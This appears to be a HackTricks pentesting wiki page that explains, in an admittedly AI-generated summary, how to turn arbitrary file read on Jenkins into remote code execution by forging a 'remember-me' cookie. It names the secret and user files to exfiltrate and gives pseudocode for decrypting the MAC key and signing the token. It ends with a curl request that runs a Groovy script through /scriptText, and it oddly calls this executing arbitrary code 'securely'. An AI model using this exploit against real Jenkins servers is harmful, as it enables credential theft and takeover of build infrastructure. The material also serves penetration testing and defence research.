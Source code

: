 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

In this blog post is possible to find a great way to transform a Local File Inclusion vulnerability in Jenkins into RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

This is an AI created summary of the part of the post were the creaft of an arbitrary cookie is abused to get RCE abusing a local file read until I have time to create a summary on my own:

### Attack Prerequisites

* **Feature Requirement:** "Remember me" must be enabled (default setting).
* **Access Levels:** Attacker needs Overall/Read permissions.
* **Secret Access:** Ability to read both binary and textual content from key files.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* Access user configuration and secrets from `$JENKINS_HOME/users/*.xml` for each user to gather:
  * **Username**
  * **User seed**
  * **Timestamp**
  * **Password hash**

**Secret Key Extraction**

* Extract cryptographic keys used for signing the cookie:
  * **Secret Key:** `$JENKINS_HOME/secret.key`
  * **Master Key:** `$JENKINS_HOME/secrets/master.key`
  * **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **Calculate Token Expiry Time:**

    {% code overflow="wrap" %}
    ```javascript
    tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adds one hour to current time
    ```
    {% endcode %}
*   **Concatenate Data for Token:**

    {% code overflow="wrap" %}
    ```javascript
    token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
    ```
    {% endcode %}

**MAC Key Decryption**

*   **Decrypt MAC Key File:**

    ```javascript
    key = toAes128Key(masterKey)  // Convert master key to AES128 key format
    decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
    if not decrypted.hasSuffix("::::MAGIC::::")
        return ERROR;
    macKey = decrypted.withoutSuffix("::::MAGIC::::")
    ```

**Signature Computation**

*   **Compute HMAC SHA256:**

    ```javascript
    mac = HmacSHA256(token, macKey)  // Compute HMAC using the token and MAC key
    tokenSignature = bytesToHexString(mac)  // Convert the MAC to a hexadecimal string
    ```

**Cookie Encoding**

*   **Generate Final Cookie:**

    {% code overflow="wrap" %}
    ```javascript
    cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode the cookie data
    ```
    {% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **Fetch CSRF and Session Tokens:**
  * Make a request to `/crumbIssuer/api/json` to obtain `Jenkins-Crumb`.
  * Capture `JSESSIONID` from the response, which will be used in conjunction with the remember-me cookie.

**Command Execution Request**

*   **Send a POST Request with Groovy Script:**

    ```bash
    curl -X POST "$JENKINS_URL/scriptText" \
    --cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
    --header "Jenkins-Crumb: $CRUMB" \
    --header "Content-Type: application/x-www-form-urlencoded" \
    --data-urlencode "script=$SCRIPT"
    ```

    * Groovy script can be used to execute system-level commands or other operations within the Jenkins environment.

The example curl command provided demonstrates how to make a request to Jenkins with the necessary headers and cookies to execute arbitrary code securely.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

